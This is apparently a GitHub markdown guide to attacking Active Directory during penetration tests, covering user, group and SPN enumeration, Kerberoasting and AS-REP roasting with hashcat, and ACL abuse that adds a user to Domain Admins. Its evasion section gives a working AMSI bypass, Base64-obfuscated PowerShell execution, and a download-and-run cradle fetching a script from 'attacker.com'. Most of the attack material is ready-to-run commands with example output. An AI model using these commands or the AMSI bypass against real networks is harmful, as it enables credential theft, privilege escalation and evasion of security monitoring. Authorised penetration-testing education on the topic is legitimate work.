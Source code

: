 # Enumeration in Active Directory Penetration Testing

## Overview
Enumeration involves actively querying the AD environment to gather detailed information about users, groups, computers, and configurations. This phase maps the AD structure and identifies vulnerabilities or misconfigurations for exploitation.

## Detailed Methods and Techniques
- **User Enumeration**:
  - **Technique**: Query AD for user accounts, including usernames, SIDs, and attributes (e.g., disabled, locked-out, password policies).
    - **Execution**: Use `ldapsearch` with valid credentials or anonymously if permitted.
      ```bash
      ldapsearch -x -H ldap://192.168.1.10 -D "user@example.com" -w "password" -b "DC=example,DC=com" "(objectClass=user)" sAMAccountName userAccountControl
      ```
      **Example Output**:
      ```
      dn: CN=John Doe,CN=Users,DC=example,DC=com
      sAMAccountName: jdoe
      userAccountControl: 512 (Enabled)
      dn: CN=Jane Smith,CN=Users,DC=example,DC=com
      sAMAccountName: jsmith
      userAccountControl: 514 (Disabled)
      ```
    - **Purpose**: Identify valid accounts for brute-forcing or targeting high-privilege users.
  - **Technique**: Enumerate usernames via Kerberos pre-authentication responses.
    - **Execution**: Use `Kerbrute` to validate usernames.
      ```bash
      kerbrute userenum -d example.com --dc 192.168.1.10 users.txt
      ```
      **Example Output**:
      ```
      [+] VALID USERNAME: jdoe@EXAMPLE.COM
      [+] VALID USERNAME: jsmith@EXAMPLE.COM
      ```
    - **Purpose**: Confirm active AD accounts without triggering lockouts.
  - **Technique**: Enumerate users via SMB null sessions (if enabled).
    - **Execution**: Use `enum4linux`.
      ```bash
      enum4linux -U 192.168.1.10
      ```
      **Example Output**:
      ```
      user:[jdoe] rid:[1001]
      user:[jsmith] rid:[1002]
      user:[Administrator] rid:[500]
      ```
    - **Purpose**: Discover user accounts without authentication.
- **Group Enumeration**:
  - **Technique**: List group memberships to identify high-privilege groups (e.g., Domain Admins, Enterprise Admins).
    - **Execution**: Use `net` command or PowerView.
      ```bash
      net group "Domain Admins" /domain
      ```
      **Example Output**:
      ```
      Group name     Domain Admins
      Members        Administrator, jdoe
      ```
      - **PowerView Execution**:
        ```powershell
        Import-Module PowerView.ps1
        Get-NetGroupMember -GroupName "Domain Admins"
        ```
        **Example Output**:
        ```
        MemberName      : jdoe
        SID             : S-1-5-21-1234567890-0987654321-1001
        IsAdmin         : True
        ```
    - **Purpose**: Identify accounts with elevated privileges.
  - **Technique**: Enumerate Access Control Lists (ACLs) for group permissions.
    - **Execution**: Use `ADACLScanner`.
      ```bash
      ADACLScanner -dc-ip 192.168.1.10 -user user -pass password -target "CN=Domain Admins,CN=Users,DC=example,DC=com"
      ```
      **Example Output**:
      ```
      ACE: jdoe has FullControl on Domain Admins
      ```
    - **Purpose**: Identify misconfigured permissions for escalation.
- **Computer Enumeration**:
  - **Technique**: Identify domain controllers, servers, and workstations.
    - **Execution**: Use `BloodHound` to map AD objects.
      ```bash
      bloodhound-python -u user -p password -d example.com -c All --dc 192.168.1.10
      ```
      **Example Output**: Generates JSON files for BloodHound GUI, showing computers like `dc01.example.com`.
    - **Purpose**: Map the AD network for lateral movement planning.
  - **Technique**: Enumerate Service Principal Names (SPNs) for service accounts.
    - **Execution**: Use `PowerView`.
      ```powershell
      Get-NetUser -SPN
      ```
      **Example Output**:
      ```
      sAMAccountName: sqlservice
      servicePrincipalName: MSSQLSvc/sql01.example.com:1433
      ```
    - **Purpose**: Identify service accounts for Kerberoasting.

## Exploitation Methods
- **Kerberoasting**:
  - **Technique**: Request TGS tickets for service accounts with SPNs and crack them offline.
  - **Execution**: Use `GetUserSPNs.py` from Impacket.
    ```bash
    GetUserSPNs.py -dc-ip 192.168.1.10 example.com/user:password -request
    ```
    **Example Output**:
    ```
    ServicePrincipalName: MSSQLSvc/sql01.example.com:1433
    Ticket: [TGS ticket data]
    ```
    - Crack with `hashcat`:
      ```bash
      hashcat -m 13100 ticket.hash /usr/share/wordlists/rockyou.txt
      ```
      **Example Output**:
      ```
      MSSQLSvc/sql01.example.com:1433:ServiceP@ss123
      ```
    - **Purpose**: Obtain service account credentials for escalation.
- **ASREPRoast**:
  - **Technique**: Target accounts with Kerberos pre-authentication disabled.
  - **Execution**: Use `GetNPUsers.py` from Impacket.
    ```bash
    GetNPUsers.py example.com/ -usersfile users.txt -dc-ip 192.168.1.10
    ```
    **Example Output**:
    ```
    jdoe:$krb5asrep$23$jdoe@EXAMPLE.COM:[hash]
    ```
    - Crack with `hashcat`:
      ```bash
      hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
      ```
      **Example Output**:
      ```
      jdoe:P@ssw0rd123
      ```
    - **Purpose**: Harvest credentials for accounts with weak passwords.
- **ACL Abuse**:
  - **Technique**: Exploit misconfigured DACLs to gain unauthorized permissions (e.g., GenericAll on a group).
  - **Execution**: Use `PowerView` to modify group memberships.
    ```powershell
    Add-DomainGroupMember -Identity "Domain Admins" -Members jdoe
    ```
    **Example Output**:
    ```
    jdoe added to Domain Admins
    ```
    - **Purpose**: Escalate privileges via misconfigured ACLs.

## AV/AMSI Evasion Techniques
- **Obfuscated PowerShell Scripts**:
  - **Technique**: Obfuscate PowerView scripts to bypass AMSI detection.
  - **Execution**: Use `Invoke-Obfuscation`.
    ```powershell
    Invoke-Obfuscation -ScriptBlock {Get-NetUser -SPN} -Technique Encode
    ```
    **Example Output**:
    ```
    $encoded = "JAB...=="
    Invoke-Expression ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($encoded)))
    ```
    - **Purpose**: Evade AMSI scanning during enumeration.
- **In-Memory Execution**:
  - **Technique**: Run enumeration scripts in memory to avoid disk-based AV detection.
  - **Execution**: Use `Invoke-Expression` with a remote script.
    ```powershell
    IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/powerview.ps1')
    ```
    - **Purpose**: Avoid AV detection by not saving scripts to disk.
- **AMSI Bypass**:
  - **Technique**: Disable AMSI via memory patching.
  - **Execution**: Use a bypass script.
    ```powershell
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, [IntPtr]::Zero)
    ```
    - **Purpose**: Prevent PowerShell scripts from being scanned by AMSI.
- **Encrypted LDAP Queries**:
  - **Technique**: Use LDAPS (port 636) instead of LDAP (port 389) to encrypt enumeration traffic.
  - **Execution**: Modify `ldapsearch` to use LDAPS.
    ```bash
    ldapsearch -H ldaps://192.168.1.10 -D "user@example.com" -w "password" -b "DC=example,DC=com" "(objectClass=user)"
    ```
    - **Purpose**: Evade network-based AV/EDR monitoring.

## Tools
- **ldapsearch**: LDAP queries (`ldapsearch -x -H ldap://<dc>`).
- **Kerbrute**: Username enumeration (`kerbrute userenum`).
- **enum4linux**: SMB enumeration (`enum4linux -a <target>`).
- **BloodHound**: AD relationship mapping.
- **PowerView**: PowerShell-based enumeration (`Get-NetUser`, `Get-NetGroup`).
- **Impacket**: Kerberoasting and ASREPRoast (`GetUserSPNs.py`, `GetNPUsers.py`).
- **ADACLScanner**: ACL enumeration.

## Best Practices
- Use valid credentials or anonymous access to minimize detection.
- Document all enumerated objects for attack planning.
- Verify permission for active enumeration to avoid legal issues.
- Use obfuscation and in-memory execution to evade AV/AMSI.